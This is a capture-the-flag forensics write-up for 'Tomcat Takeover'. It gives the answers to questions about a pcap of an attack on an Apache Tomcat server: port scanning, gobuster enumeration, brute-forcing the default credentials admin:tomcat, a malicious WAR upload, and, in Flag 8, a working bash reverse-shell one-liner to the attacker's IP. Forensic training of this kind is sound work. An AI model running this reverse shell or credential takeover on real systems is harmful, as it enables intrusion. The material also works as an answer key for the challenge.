







# Challenge name: Tomcat Takeover

## Author: Panagiotis Fiskilis / Neuro

## Description:

```
Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.
```

# Flags:

## Flag 1: `14.0.0.120`

Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? 


A: Statistically we notice that the system with IP address: `14.0.0.120` has sent the most packets indicating a possible port scan.



## Flag 2: `Guangzhou`

Q2: Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?



## Flag 3: `8080`

Q3: From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? 

It is the default port for Tomcat

## Flag 4: `gobuster`

Q4: Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? 




## Flag 5: `/manager`

Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

Default Admin page:



## Flag 6: `admin:tomcat`

Q6: Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?



## Flag 7: `JXQOZY.war`

Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?



## Flag 8: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?



